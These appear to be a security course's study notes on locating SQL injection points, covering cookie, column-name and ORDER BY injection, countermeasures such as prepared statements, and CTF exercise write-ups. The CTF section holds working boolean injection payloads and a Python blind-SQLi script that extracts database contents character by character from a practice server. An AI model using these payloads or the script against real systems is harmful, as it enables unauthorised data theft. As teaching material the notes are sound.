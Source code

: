# Find SQL Injection Point

## Part 1 - Review
1. SQL Injection = Extract Data
- Union = Disply SQL Result
- Error Based = Disply SQL Error
- Blind = SQL Working
2. Find SQL Injection Point
- The SQL Place to request DB
- When where user_id like, test = nor%' and '1%'='1

## Part 2. - Find SQL Injection Point
* [SQL Point](https://velvetviolet1024.tistory.com/81)
1. HTTP request header (cookie)
- It works SQL select function in cookie information to bring DB data
2. Column name SQL Injection (https://www.sqlinjection.net/column-names/)
```javascript
select () from () where (option_val) like '%(board_result)%'
```
3. Sort (order by SQL Injection)
```javascript
where username like '&sfUser&' order by (case)
case when (condition) then (true) else (false) end
case when (1=1) then username else title end
case when (1=1) then 1 else (select 1 union select 2) end
select 1 union select 2 where 1=1
```
4. causing error
```javascript
sfUser' and (select 1 union select 2 where (1=2) and '1'='1
```

## Part 3. - SQL Injection countermeasure
1. Prepared Statement
- Prepared compiling
2. Vulnerabilities
- Wrong situation
- Not working of prepared statement (order by, table name, column name)
3. White List Filtering
- White list = be able to use some words
- Black list = cannot use some words

## Part 4. - Assignment
1. Review
2. SQL Injection attack types (https://www.acunetix.com/websitesecurity/sql-injection2/)
3. CTF
* SQL Injection Point 1
  - On the mypage, check the SQL injection point.
```javascript
Cookie: user=muhush' and '1'='1; session=fa7175eb-376b-4af5-9e86-81393acf11a9.aU7QuoD1Nzvk5f-sAlyIfxpL2j0; PHPSESSID=8okntclrajuqjvnmgvuca9cdki
<div class = "hori">
  <i class="fas fa-birthday-cake fa-2x"></i>
  <input name = "info" type = "text" placeholder="Nothing Here..."/>
</div>
```
  - Check the false SQL injection condition.
```javascript
Cookie: user=muhush' and '1'='2; session=fa7175eb-376b-4af5-9e86-81393acf11a9.aU7QuoD1Nzvk5f-sAlyIfxpL2j0; PHPSESSID=8okntclrajuqjvnmgvuca9cdki
<div class = "hori">
  <i class="fas fa-birthday-cake fa-2x"></i>
  <input name = "info" type = "text" placeholder=""/>
</div>
```  
  - Python Format
```python
import requests
url = "http://ctf.segfaulthub.com:7777/sqli_6/mypage.php"
success_message = 'Nothing Here'
def send_request(sql_query):
    cookie = {'user':sql_query,
              'PHPSESSID':'8okntclrajuqjvnmgvuca9cdki'
              }
    response = requests.post(url, cookies=cookie)
    return success_message in response.text

sql_query = input("Put your SQL Injection: ")
def Blind_SQLi(sql):
    extract_info = ''
    for i in range(1,101): #Maximum letter 100
        for j in range(32,127): #ascii range
            payload = f"muhush' and (ascii(substr(({sql}),{i},1))={j}) and '1'='1"
            if send_request(payload):
                extract_info += chr(j)
                break
        else:
            break # No more letter
    return extract_info
extracted_data = Blind_SQLi(sql_query)
print(f"Extracted Data: {extracted_data}")
```
* SQL Injection Point 2
  - On the board, check the SQL injection point
```javascript
option_val=username&board_result=x&board_search=%F0%9F%94%8D&date_from=&date_to=
```
  - True SQL Injection = Display the result
```javascript
option_val='1'='1' and username&board_result=x&board_search=%F0%9F%94%8D&date_from=&date_to=
```
  - False SQL Injection = Non-display the result
```javascript
option_val='1'='2' and username&board_result=x&board_search=%F0%9F%94%8D&date_from=&date_to=
```

4. Web Development (Board - search function with secure code)
